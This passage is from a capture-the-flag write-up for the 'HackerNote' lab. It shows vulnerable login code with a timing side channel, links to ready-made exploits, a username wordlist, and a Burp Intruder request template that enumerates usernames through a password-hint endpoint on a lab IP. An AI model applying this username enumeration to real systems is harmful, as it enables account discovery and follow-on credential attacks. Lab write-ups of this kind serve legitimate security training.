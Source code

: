 HackerNote Login Code

```python
def login(username, password):
    if username in users: ##If it's a valid username
        login_status = check_password(password) ##This takes a noticeable amount of time
        if login_status:
            return new_session_token()
        else:
            return "Username or password incorrect"
    else:
        return "Username or password incorrect"
```

Pre-written exploits in Golang and Python are available here: [https://github.com/NinjaJc01/hackerNoteExploits](https://github.com/NinjaJc01/hackerNoteExploits)[](https://github.com/NinjaJc01/hackerNoteExploits)

Use the Honeypot capture or Names/names.txt from [https://github.com/danielmiessler/SecLists/tree/master/Usernames](https://github.com/danielmiessler/SecLists/tree/master/Usernames). The shorter the list is, the faster the exploit will complete. (Hint: one of those wordlists is shorter.)

**NOTE:** The Golang exploit is not reliable but it is faster. If you get invalid usernames, try re-running it after a minute or switching to the python exploit.

Answer the questions below

```
┌──(witty㉿kali)-[/usr/…/wordlists/seclists/Usernames/Names]
└─$ head names.txt              
witty
aaliyah
aaren
aarika
aaron
aartjan
aarushi
abagael
abagail
abahri

using burp intruder

GET /api/user/passwordhint/§witty§ HTTP/1.1

Host: 10.10.247.168

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Connection: close

Cache-Control: max-age=0


Response
HTTP/1.1 200 OK

Content-Type: application/json

Date: Thu, 16 Mar 2023 17:09:25 GMT

```